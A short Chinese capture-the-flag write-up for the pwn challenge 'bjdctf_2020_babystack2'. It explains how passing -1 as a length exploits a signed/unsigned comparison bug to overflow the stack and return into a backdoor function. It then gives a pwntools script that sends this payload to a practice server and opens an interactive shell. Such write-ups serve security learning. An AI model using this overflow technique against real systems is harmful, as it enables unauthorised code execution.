 ```yaml
---
title: "bjdctf_2020_babystack2"
description: ""
date: 2023-04-07T14:01:11+08:00
lastmod: 2023-04-07T14:01:11+08:00
draft: false
images: []
type: docs
weight: 981
toc: true
---
```


## 0x01 分析

![7f5fefe1747a9f94c0ac8b6bff1bb02d](images/7f5fefe1747a9f94c0ac8b6bff1bb02d.png)  

nbytes本身是无符号类型的，但是它转换成int来比较，而且没有检查负数，对于无符号整数来说负数是一个很大的数字，所以直接输入-1就行，然后就可以溢出实现ret2text了

![6320c6de279ba31d972998f8b89988c6](images/6320c6de279ba31d972998f8b89988c6.png)  

## 0x02 Exploit

```python
from pwn import*
# o = process("./pwn")
o = remote("node4.buuoj.cn", 25698)
elf = ELF("./pwn")
backdoor = elf.sym['backdoor']
payload = b'a'*24 + p64(backdoor)
o.sendline("-1")
o.sendline(payload)
o.interactive()

```

![39d8e29f24fc11cb53a2ad7f49d83fbf](images/39d8e29f24fc11cb53a2ad7f49d83fbf.png)  

自行调试

